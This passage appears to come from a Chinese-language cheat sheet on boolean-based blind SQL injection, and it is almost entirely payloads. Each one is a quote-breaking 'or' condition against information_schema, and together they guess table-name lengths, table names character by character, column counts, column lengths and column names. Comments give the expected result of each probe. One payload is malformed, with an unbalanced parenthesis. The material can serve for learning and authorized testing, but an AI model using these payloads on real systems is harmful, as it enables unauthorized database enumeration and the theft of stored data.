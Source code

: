 #### 猜解表名的长度

```
'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 4 --+    #判断第一个表的表名长度为4---&gt;2

'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 5 --+    #判断第一个表的表名长度为5---&gt;1

'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1) = 5 --+    #判断第二个表的表名长度为5---&gt;2
```

#### 猜解第一个表的表名

```
'or mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1 ),1,1) = 'a' --+    #通过字母判断---&gt;1

'Or ORD(mid(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1)) &gt;100 --+    #通过ascii码判断---&gt;2
```

#### 猜解表的字段的总数（列数）

```
'or (select count(column_name) from information_schema.COLUMNS where TABLE_NAME='表名') &gt; 5 --+    #判断表名长度大于5---&gt;1
```

#### 猜解第一个字段的长度（列名的长度）

```
'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 9 --+    #判断表的第一列长度为9---&gt;2

'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 10 --+    #判断表的第一列长度为10---&gt;1

'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 10 --+    #判断表的第二列长度为10---&gt;2
```

#### 猜解第一个字段名（列名）

```
'or mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1) = 'i' --+    #通过字母判断---&gt;1

'or ORD(mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1)) &lt; 100 --+    #通过ascii码判断---&gt;2
```

#### 直接猜解字段名（列名）

```
' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 'username' --+    #判断第二列的列名为username---&gt;1
```

